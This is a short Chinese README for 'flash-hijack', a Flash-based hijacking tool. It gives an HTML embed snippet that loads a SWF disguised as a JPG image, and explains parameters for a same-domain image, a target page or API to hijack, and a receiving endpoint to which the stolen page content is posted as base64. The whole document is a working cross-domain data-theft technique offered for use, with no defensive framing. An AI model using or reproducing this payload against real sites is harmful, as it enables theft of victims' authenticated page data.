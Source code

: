 # flash-hijack
flash 劫持轮子

使用：
HTML：

<div> 
<embed src="hijack.jpg?jpg=http://127.0.0.1/1.png&get=http://127.0.0.1/l.php&post=http://127.0.0.1/2.php" width="970" height="107" quality="high" pluginspage="http://www.macromedia.com/go/getflashplayer" type="application/x-shockwave-flash" wmode="transparent"></embed> 
</object> 
</div>

参数说明:
jpg：域下的图片
get：劫持的接口或者页面
post：接收劫持过来的页面为base64传输
